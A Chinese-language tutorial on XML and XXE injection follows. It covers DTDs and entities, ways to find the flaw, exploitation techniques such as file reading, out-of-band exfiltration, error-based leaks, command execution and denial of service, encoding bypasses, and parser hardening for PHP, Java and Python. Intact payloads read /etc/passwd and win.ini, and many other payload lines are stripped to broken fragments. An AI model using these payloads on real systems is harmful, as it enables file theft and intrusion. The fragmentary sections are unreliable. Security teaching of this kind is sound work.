XML
基础
定义
XML是可扩展标记语言（eXtensible Markup Language）的缩写，它是是一种数据表示格式，可以描述非常 复杂的数据结构，常用于传输和存储数据。
与html的联系和区别
- HTML 被设计用来显示数据
- XML 被设计用来传输和存储数据
对 XML 最好的描述是：
XML 是独立于软件和硬件的信息传输工具。
语法

格式
XML声明：版本，编码信息（可选，如果存在就必须放在文档的首行）
DTD:Document Type Definition 即文档类型定义 (可选)
文档元素
典型xml文档例子
<?xml version="1.0" encoding="UTF-8"?> <!--XML声明--> <!--DTD，这部分可选的--> <!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" > ]> <!--文档元素--> <note> <to>Tove</to> <from>Jani</from> <heading>Reminder</heading> <body>Don't forget me this weekend!</body> </note> <foo>&xxe;</foo>
DTD与实体
DTD
DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用。
<!DOCTYPE note [
<!ENTITY b >
]>
上面所示的就是一个DTD
<!DOCTYPE note [
<!ENTITY b system "外部dtd地址">
]>
上面所示的就是一个外部DTD
实体
DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。
]>
&hello
文档元素可以使用&来引用实体的值，&hello将被替换为hello world
参数实体
XML参数实体是一种特殊的XML实体，只能在DTD中的其他地方引用
">
%b;
]>
可以看到参数实体用% name声明，引用时用%name;
引入外部实体
]>
这里使用了file协议来引入外部实体，实际上还能支持如下协议，这也是xxe漏洞形成的原因


XXE漏洞
概述
XXE 漏洞全称 XML External Entity Injection，即 xml 外部实体注入漏洞
漏洞成因
XXE 漏洞发 生在应用程序解析 XML 输入时，没有禁止外部实体的加载，而外部实体的引用可支持http，file等协议，通过利用这些协议进行攻击。
漏洞场景
黑盒
content-type测试
数据包中的content-type
application/xml text/xmlhttp body

数据包请求头中Context-Type的值为application/json，更改为application/xml或者text/xml，观察响应包是否会解析xml，比如返回的报错信息中显示后端有处理xml的组件，然后插入payload测试

xlsx，svg等文件上传功能点
利用EXCEL进行XXE攻击
解压xlsx文件，在[Content_Types].xml中插入payload

然后再重新打包为1.xlsx
# 也可以尝试在如下xml文件中插入payload xl/workbook.xml xl/worksheets/sheet1.xml _rels/.rels xl/_rels/workbook.xml.rels xl/theme/theme1.xml _rels/.rels docProps/app.xml docProps/core.xml xl/_rels/workbook.xml.rels xl/styles.xml xl/workbook.xml
上传svg，docx等xml格式的文件进行攻击
1.svg
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE note [ <!ENTITY file SYSTEM "file:///etc/passwd" > ]> <svg height="100" width="1000"> <text x="10" y="20">&file;</text> </svg>java--jar协议解压压缩包
白盒相关函数
php
simplexml_import_dom()
需要注意的是PHP是使用libxml来解析XML的，但是libxml2.9.0开始就默认不解析外部实体，自然就不存在xxe漏洞。
java
javax.xml.parsers.DocumentBuilder
javax.xml.parsers.SAXParser
javax.xml.parsers.SAXParserFactory
javax.xml.transform.TransformerFactory
javax.xml.validation.Validator
javax.xml.validation.SchemaFactory
javax.xml.transform.sax.SAXTransformerFactory
javax.xml.transform.sax.SAXSource
org.xml.sax.XMLReader
org.xml.sax.helpers.XMLReaderFactory
org.dom4j.io.SAXReader
org.jdom.input.SAXBuilder
org.jdom2.input.SAXBuilder
javax.xml.bind.Unmarshaller
javax.xml.xpath.XpathExpression
javax.xml.stream.XMLStreamReader
org.apache.commons.digester3.Digester
漏洞危害
文件读取
内网探针
拒绝服务攻击
命令执行
漏洞利用
实验环境
- https://github.com/c0ny1/xxe-lab php版本
- vulhub Apache solr XML 实体注入漏洞（CVE-2017-12629）
有回显
Demo
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
try{
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
$username = $creds->username;
$password = $creds->password;
if($username == $USERNAME && $password == $PASSWORD){
$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
}else{
$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
}
}catch(Exception $e){
$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}
username为回显位
payload
]>
<username>&xxe;</username>
无回显
外带
php://filter读取对方服务器文件内容→引入外部实体（攻击服务器上的）→触发外部实体中的写入代码，将读取到的文件内容赋值给指定参数→接收参数，在攻击服务器监听或者查看日志，从而获取到对方服务器文件内容
%dtd;
%send;
]>
"
>
%payload;
注意：test.dtd的内容，内部的%号要进行实体编码成%（因为实体的值中不能有 %, 所以将其转成html实体编码
%）

基于报错
构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。
引入服务器实体
%xxe;
]>
xml.dtd
">
%eval;
%error;

引入本地系统文件--测试失败
https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/
Your DTD code
%local_dtd;
]>
DTD code
">
%eval;
%error;
payload
">
%eval;
%error;
%local_dtd;
]>
嵌套参数实体
">
%para2;
'>
%para;
]>

不是所有的xml解析器都能解析嵌套参数实体

利用方式
文件读取
]>
]>
&rabbit;

当不能使用过滤器时
">
%dtd; ]>
evil.dtd
POST数据
&all;

列目录--JAVA
]>
&xxe; 
]>
&xxe; 内网探测
]>
&rabbit;
命令执行
该 CASE 是在安装 expect 扩展的 PHP 环境里执行系统命令
]>
&xxe;
DOS攻击--没成功过
]> &lol9;
此测试可以在内存中将小型 XML 文档扩展到超过 3GB 而使服务器崩溃。 亦或者，如果目标是UNIX系统，
]>
&xxe;
如果 XML 解析器尝试使用/dev/random文件中的内容来替代实体，则此示例会使服务器（使用 UNIX 系统）崩溃。
绕过
插入空格
可以在
<?xml或<!DOCTYPE后插入任意数量的空格
编码绕过
UTF-7 UTF-16 BE，UTF-16 LE UTF-32 BE、UTF-32LE、UTF-322143、UTF-323412 EBCDICcat payload.xml | iconv -f utf-8 -t utf-7 > payload.7.xml
工具
7.XXEinjector：一款功能强大的自动化XXE注射工具 - bmjoker - 博客园 (cnblogs.com)
漏洞修复
- 禁用外部实体
PHP:
libxml_disable_entity_loader(true);
JAVA:
// SAXBuilder
SAXBuilder builder = new SAXBuilder();
builder.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
builder.setFeature("http://xml.org/sax/features/external-general-entities", false);
builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
builder.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
// DocumentBuilder
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
DocumentBuilder documentBuilder = dbf.newDocumentBuilder();
// SAXReader
SAXReader saxReader = new SAXReader();
saxReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
saxReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
saxReader.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
saxReader.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
// SAXTransformerFactory
SAXTransformerFactory sf = (SAXTransformerFactory) SAXTransformerFactory.newInstance();
sf.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
sf.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, "");
// TransformerFactory
TransformerFactory tf = TransformerFactory.newInstance();
tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
tf.setAttribute(XMLConstants.ACCESS_EXTERNAL_STYLESHEET, "");
// Unmarshaller 默认方法不存在xxe漏洞
Python：
from lxml import etreexmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
- 过滤用户提交的 XML 数据
如过滤关键词：
DOCTYPE 和<!ENTITY，或者 SYSTEM 和 PUBLIC
参考文章
https://r17a-17.github.io/2021/09/04/Java-XXE%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93
https://www.cnblogs.com/20175211lyz/p/11413335.html